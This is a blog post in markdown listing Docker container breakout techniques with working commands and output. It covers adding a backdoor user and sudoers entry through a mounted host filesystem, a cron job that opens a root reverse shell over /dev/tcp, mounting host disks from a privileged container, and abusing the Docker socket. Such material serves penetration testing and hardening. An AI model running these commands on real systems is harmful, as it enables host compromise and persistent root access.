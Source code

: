 ```yaml
---
title: "Container Breakouts Techniques"
date: 2020-07-11T13:09:54+02:00
draft: true
---
```



If you are bored of searching for the most-known container breakout techniques, here is a collection. This post addresses abuse of [shared root filesystem](#shared-host-root-directory) (2 ways), [privileged container](#privileged-container) (3 ways) and access to the [Docker Socket](#docker-socket) (1 way). Okay, to be fair – some techniques refer to each other. Enjoy! :)

## Intro

The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

It may the case that not all breakouts that you have in mind are listed. Do not hesitate and contact me so that I can add them. Over the time, I may extend them as well.

## Attacks

The attacks refer to each other, cause the root-cause why an attack is possible may differ, but the final break out may be the same. The examples are related to docker. The transfer to other container technologies, e.g., LXC may be slightly different and maybe there will be a follow-up post regarding this ;)

### Shared Host root-directory

If you got access to a container that shares directories with the host, that is not direct a problem. But, if the container has access to the host root-filesystem as user root (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you got the jack pot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

#### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer’s**. After the user is prepared, we connect via **SSH** to the host. Okay, it is a kind of flaky, because certain packages must have been installed and services running, you get the idea :)

```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2

# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

We have assumed that there is a SSH daemon running on the host, the service is not hardened and the `sudo` package was installed. Well, you could exchange the sudo-step by creating another user with `uid=0(root)` to get rid of that step, but anyway ;)

#### Cronjob

Another approach would be to write a **cronjob** file that is executed every minute and starts a **reverse shell** as user `root`.

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 


### Privileged Container
If you start a container with Docker and you add the flag `--privileged` that means to the process in the container can act as root user on the host. The containerization would have the advantage of self-containing software shipment, but **no** real **security boundaries to** the **kernel**.

There are multiple ways to escape from a privileged container. Let us have a start.

#### Capabilities

##### `CAP_SYS_Module` – Load Kernel Module 

https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host 

##### `CAP_SYS_ADMIN` – cgroup release on notfy
TODO … have to read :D

#### Host Devices

I prefer to use the host devices to escape from a privileged container. A quick directory listing of the **devices** in the container shows that we have **access to all** of them:

```
root@0462216e684b:~# ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jul 11 09:20 autofs

[...]
brw-rw---- 1 root  994   8,   0 Jul 11 09:20 sda
brw-rw---- 1 root  994   8,   1 Jul 11 09:20 sda1
[...]
# mkdir /hostfs
# mount /dev/sda1 /hostfs
# ls -l /hostfs/
total 132
lrwxrwxrwx   1 root root     7 Nov 19  2019 bin -> usr/bin
drwxr-xr-x   4 root root  4096 May 13 13:29 boot
[…]
drwxr-xr-x 104 root root 12288 Jul 11 10:09 etc
drwxr-xr-x   4 root root  4096 Jun 30 14:47 home
[…]
drwxr-x---   9 root root  4096 Jul 11 10:09 root
[…]
lrwxrwxrwx   1 root root     7 Nov 19  2019 sbin -> usr/bin
[…]
drwxr-xr-x  10 root root  4096 May 26 14:37 usr
[…]
```

As you can see, the **hard drive** itself is listed, which can be **mounted**. After mounting the device, it is possible to interact as root user with the device and backdoor the system.

Getting access via the hard drive is already described in the previous section [Shared Host root-directory](#shared-host-root-directory).


### Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Some containerized application may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have access to the socket, you can manage the local system. Okay, first at all, you can manage containers and these containers can afterwards manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or **just simple **install Docker** in the container. Okay, and what’s the next step? Exactly, you had it already in your mind, start a privileged container. 

```
# apt update && apt install -y docker.io
# docker run --rm --privileged -it nodyd/ana bash
user@b89e2cfbd699:~$
```

With the access to a privileged container, you can **perform** the **steps as already explained** in previous section [Privileged Container](#privileged-container).

## Conclusion

The listed container breakouts are in my humble opinion the most basic one. The list is for sure not complete and as soon as I am in the mood, I might update, extend or re-organize the techniques. 

Due to the fact that I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:

- Brad Geesaman – [@bradgeesaman](https://twitter.com/bradgeesaman)
- Chris Le Roy – [@brompwnie](https://github.com/brompwnie)
- Duffie Cooley – [@mauilion](https://twitter.com/mauilion)
- Ian Coldwater – [@IanColdwater](https://twitter.com/IanColdwater)
- Jessie Frazelle – [@jessfraz](https://twitter.com/jessfraz)
- Mark Manning – [@antitree](https://twitter.com/antitree) 
- Matthias Luft – [@uchi_mata](https://twitter.com/uchi_mata)
- Rory McCune – [@raesene](https://twitter.com/raesene)

To name a few – you are awesome – please continue !!


